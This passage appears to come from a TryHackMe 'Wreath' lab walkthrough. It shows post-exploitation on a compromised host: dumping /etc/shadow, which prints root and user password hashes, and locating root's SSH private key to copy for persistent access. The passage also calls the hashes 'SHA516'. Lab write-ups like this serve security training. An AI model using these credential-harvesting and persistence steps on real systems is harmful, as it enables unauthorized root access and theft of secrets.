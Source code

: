 Let's cat /etc/shadow

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```

Looks like we get 2 SHA516 hashes.

I would attempt to crack these with John or Hashcat, but THM notes they are uncrackable (within a normal amount of time).

**2) You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.**

Let's navigate to the root directory and look for access to the ssh without a password.

```
ls -lAh
total 5.8M
lrwxrwxrwx. 1 root root    9 Nov  7 13:39 .bash_history -> /dev/null
-rw-r--r--. 1 root root   18 May 11  2019 .bash_logout
-rw-r--r--. 1 root root  176 May 11  2019 .bash_profile
-rw-r--r--. 1 root root  176 May 11  2019 .bashrc
-rw-r--r--. 1 root root  100 May 11  2019 .cshrc
lrwxrwxrwx. 1 root root    9 Nov  7 13:55 .mysql_history -> /dev/null
-rw-------. 1 root root    0 Jan  8 22:27 .python_history
drwx------. 2 root root   80 Jan  6 03:29 .ssh
-rw-r--r--. 1 root root  129 May 11  2019 .tcshrc
-rw-------. 1 root root 1.4K Nov  7 13:38 anaconda-ks.cfg
-rwxr-xr-x. 1 root root 5.7M Mar 22 13:28 nmap-Zima.Blue
-rw-r--r--. 1 root root  968 Mar 22 13:43 scan-2-Zima.Blue
-rw-r--r--. 1 root root 1.1K Mar 22 13:30 scan-Zima.Blue
```

Using -a or -lAh we find .ssh that we can navigate to.

```
ls -lah
total 16K
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  260 Mar 22 13:40 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2.6K Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  172 Jan  6 03:29 known_hosts
sh-4.4# 
```

Perfect, we found the id_rsa that we can use to ssh into the server as root.

We could setup a HTTP Server to do this, but lets just cat the rsa_id, copy it to our Wreath directory, and then chmod it with 600.
